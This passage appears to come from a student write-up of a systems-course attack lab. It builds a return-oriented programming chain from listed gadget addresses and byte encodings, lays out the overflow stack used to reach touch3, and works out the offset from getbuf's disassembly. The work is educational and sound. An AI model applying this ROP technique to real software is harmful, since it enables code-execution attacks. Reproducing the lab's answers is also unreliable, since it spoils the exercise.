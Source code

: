 So we can generate our instrucstions based on `add_xy`:

```c++
// no `movq %rsp, %rdi; ret` found in farm, so use %rax as a temp
movq %rsp, %rax  ret    // 48 89 e0 ... c3   0x401aad <setval_350>
movq %rax, %rdi  ret    // 48 89 c7 ... c3   0x4019c5 <setval_426>
popq %rax   ret         // pop offset to %rax, 58 ... c3  0x4019cc <getval_280>
// no `movq %rax, %rsi` or `movl %eax, %esi` found in farm
// so we have to use `%edx`, `%ecx` as temp
movl %eax, %edx  ret    // 89 c2 ... c3   0x4019dd <getval_481>
movl %edx, %ecx  ret    // 89 d1 ... c3   0x401a34 <getval_159> (38 c9 is a nop)
movl %ecx, %esi  ret    // 89 ce ... c3   0x401a13 <addval_436>
<add_xy>                // lea and ret, 0x4019d6
movq %rax,%rdi   ret    // 48 89 c7 ... c3  0x4019a2 <addval_273>
```

The stack is like:

```c
| our hex cookie |  // our hex cookie value here
|return: 0x4018fa|  // execute touch3
|return: 0x4019a2|  // execute `movq %rax,%rdi   ret`
|return: 0x4019d6|  // execute <add_xy>
|return: 0x401a13|  // execute `movl %ecx, %esi  ret`
|return: 0x401a34|  // execute `movl %edx, %ecx  ret`
|return: 0x4019dd|  // execute `movl %eax, %edx  ret`
|  offset: 0x??  |  // our offset here
|return: 0x4019cc|  // execute `popq %rax   ret`
|return: 0x4019c5|  // execute `movq %rax, %rdi   ret`
|return: 0x401aad|  // execute `movq %rsp, %rax   ret`   // %getbuf + 0x30
|     ....       |   
|     ....       | 
|     ....       |   
|     ....       |   
|     ....       |
|     ....       |  // %get buf start
```

But here comes another question: what's the offset should be?

Note: Dump of assembler code for function getbuf

```c++
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     callq  0x401b60 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
=> 0x00000000004017bd <+21>:    retq
```

Recall that when `retq`, the `%rsp` adds `0x8`, and get the address back.

So when executing `movq %rsp, %rax`, the `%rsp` is now pointing at

```c
| our hex cookie |  // %rsp + 0x50
|return: 0x4018fa|  // execute touch3
|return: 0x4019a2|
|return: 0x4019d6|
|return: 0x401a13|
|return: 0x401a34|
|return: 0x4019dd|
|  offset: 0x??  |
|return: 0x4019cc|
|return: 0x4019c5|
|return: 0x401aad|  // execute `movq %rsp, %rax   ret`   // %rsp here
|     ....       |   
|     ....       |
```